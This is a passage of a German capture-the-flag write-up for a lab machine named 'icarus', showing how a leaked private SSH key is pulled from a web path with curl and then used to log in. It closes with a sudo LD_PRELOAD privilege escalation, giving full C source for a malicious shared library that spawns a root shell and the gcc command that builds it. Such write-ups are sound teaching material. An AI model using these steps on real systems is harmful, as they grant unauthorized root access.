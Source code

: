 2.  **Information Disclosure über Webpfad `/a`:**
    *   Der Inhalt von `http://192.168.2.111/a` wurde mit `curl` heruntergeladen (`curl "http://192.168.2.111/a" > url`).
    *   Die Datei `url` enthielt eine Liste von Pfaden/Dateinamen.
    *   Eine `for`-Schleife wurde verwendet, um alle in `url` gelisteten Ressourcen vom Server herunterzuladen und in `curl.output` zu aggregieren:
        ```bash
        for i in $(cat url); do curl "http://192.168.2.111/$i" >> curl.output; done
        ```
    *   Die Datei `curl.output` enthielt einen privaten OpenSSH-Schlüssel. Der Kommentar im Schlüssel (`icarus@icarus`) identifizierte den zugehörigen Benutzer als `icarus`.

3.  **SSH-Login als `icarus`:**
    *   Der gefundene private Schlüssel wurde lokal als `icarsa` gespeichert und die Berechtigungen auf `600` gesetzt.
    *   Der öffentliche Schlüssel und der Benutzername wurden mit `ssh-keygen -y -f icarsa` bestätigt.
    *   Der SSH-Login als `icarus` mit dem Schlüssel war erfolgreich:
        ```bash
        ssh -i icarsa icarus@icarus
        ```
    *   Initialer Zugriff als `icarus` wurde erlangt.
    *   Die User-Flag `Dontgotothesun` wurde in `/home/icarus/user.txt` gefunden.

---

## Phase 3: Privilege Escalation (Sudo & LD_PRELOAD)

1.  **Sudo-Rechte-Prüfung für `icarus`:**
    *   `icarus@icarus:~$ sudo -l` zeigte:
        ```
        Matching Defaults entries for icarus on icarus:
            env_reset, mail_badpass, env_keep+=LD_PRELOAD,
            secure_path=/usr/local/sbin:/usr/local/bin:/usr/sbin:/usr/bin:/sbin:/bin

        User icarus may run the following commands on icarus:
            (ALL : ALL) NOPASSWD: /usr/bin/id
        ```
    *   **Kritische Fehlkonfiguration:** Die Option `env_keep+=LD_PRELOAD` erlaubt die Beibehaltung der `LD_PRELOAD`-Umgebungsvariable bei der Ausführung von `sudo`-Befehlen.

2.  **Erstellung der bösartigen Shared Library:**
    *   Im Verzeichnis `/tmp` wurde eine C-Datei (`shell.c`) erstellt:
        ```c
        #include <stdio.h>
        #include <stdlib.h>
        #include <unistd.h> // Notwendig für setuid/setgid

        void _init() {
            unsetenv("LD_PRELOAD");
            setgid(0);
            setuid(0);
            system("/bin/sh");
        }
        ```
    *   Diese Datei wurde als Shared Library kompiliert:
        ```bash
        gcc -fPIC -shared -o shell.so shell.c -nostartfiles
        ```
